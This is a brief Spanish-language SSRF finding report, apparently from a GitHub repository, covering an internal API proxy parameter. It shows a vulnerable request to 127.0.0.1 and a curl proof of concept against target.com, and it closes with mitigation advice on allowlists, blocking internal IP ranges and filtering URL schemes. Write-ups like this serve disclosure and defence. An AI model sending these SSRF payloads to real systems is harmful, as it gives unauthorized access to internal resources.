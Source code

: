 # SSRF en API interna expuesta

**Fecha:** Julio 2025  
**Vulnerabilidad:** Server-Side Request Forgery  
**Target:** Aplicación interna con microservicios  
**Impacto:** Acceso a recursos internos sin autenticación

---

## 🔍 Vector encontrado

Parámetro vulnerable:

```
GET /proxy?url=http://127.0.0.1:8000/admin
```

---

## 💥 Prueba de concepto

```bash
curl "https://target.com/proxy?url=http://127.0.0.1:8000/status"
```

---

## 🛡️ Recomendación

- Validar dominios (allowlist)
- Bloquear IPs internas (`127.0.0.0/8`, `169.254.0.0/16`)
- Filtrar esquemas como `file://`, `ftp://`, `gopher://`
